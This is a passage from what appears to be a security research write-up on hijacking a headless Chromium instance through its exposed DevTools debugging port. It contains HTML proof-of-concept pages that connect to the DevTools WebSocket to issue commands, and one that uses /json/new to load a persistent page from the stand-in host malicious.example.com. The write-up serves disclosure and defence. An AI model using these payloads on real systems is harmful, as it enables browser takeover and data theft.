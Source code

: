 Screenshot of the malicious page
Resulting screenshot of a malicious page embedding the /json/version Chromium endpoint
With the target ID known, the malicious page can connect to the WebSocket endpoint and issue debug commands. The output of these commands can be exfiltrated anywhere, but for brevity, this example puts them into the page.

<html>
  <body>
    My malicious page<br />
    <div id="output"></div>
    <script>
      const ws = new WebSocket('ws://localhost:55492/devtools/browser/285956da-acb4-4251-ba54-affbadb4acdb');
      ws.onerror = console.error;
      ws.onclose = console.log;
      ws.onmessage = ev => {
        document.getElementById('output').innerText = ev.data;
      }
      ws.onopen = () => {
        ws.send(JSON.stringify({ "id": 1, "method": "Browser.getVersion" }))
      }
    </script>
  </body>
</html>
HTML
Copy

Output of a page calling the Browser.getVersion DevTools method
Working with Multiple Chromium Instances
Having to fire the exploit twice, once to get the target ID and a second time to issue commands, is problematic because:

Chromium might be started and stopped per job.
There might be many instances of Chromium, with each job scheduled onto a different instance.
Illustrating multiple instances with different target IDs.
Multiple instances of Chromium have different target IDs
To get around this, the /json/new endpoint can be used to launch a new page, persist.html, and maintain persistence while the browser target ID is obtained through the export.

<html>
  <body>
    My malicious page<br />
    <iframe src="http://localhost:55492/json/version" width="800" height="600"></iframe>
    <img src="http://localhost:55492/json/new?http://malicious.example.com/persist.html" />
  </body>
</html>
HTML
Copy
Flow of how to launch a persistent page with /json/new to stay in one Chromium instance. This prevents the malicious page from being accessed.
Launching a persistent page with /json/new to stay in one Chromium instance
This persistent page allows for JavaScript execution while the browser target ID is obtained out-of-band through a screenshot of the page.
